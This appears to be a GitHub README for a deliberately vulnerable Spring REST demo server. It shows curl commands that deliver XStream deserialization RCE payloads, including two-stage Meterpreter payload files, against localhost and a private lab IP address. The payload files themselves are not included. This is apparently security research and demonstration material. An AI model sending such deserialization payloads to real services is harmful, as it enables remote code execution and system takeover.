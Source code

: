 ## XStreamServer

RCE Exploit PoC for Spring based RESTFul APIs using XStream as Unmarshaler

Start the server using the maven jetty plugin:
mvn -Djetty.port=8080 -DDebug clean  jetty:run

Expected use:
curl --header "content-type: application/xml" --data @contact.xml "http://localhost:8080/contacts"

Exploit knowing the interface:
curl --header "content-type: application/xml" --data @exploit-interface.xml "http://localhost:8080/contacts"

Generic Exploit:
curl --header "content-type: application/xml" --data @exploit-general.xml "http://localhost:8080/contacts"

Meterpreter Exploit:
curl --header "content-type: application/xml" --data @meterpreter-stage1.xml "http://localhost:8080/contacts"
curl --header "content-type: application/xml" --data @meterpreter-stage2.xml "http://localhost:8080/contacts"

curl --header "content-type: application/xml" --data @meterpreter-stage1.xml "http://192.168.239.146:8080/contacts"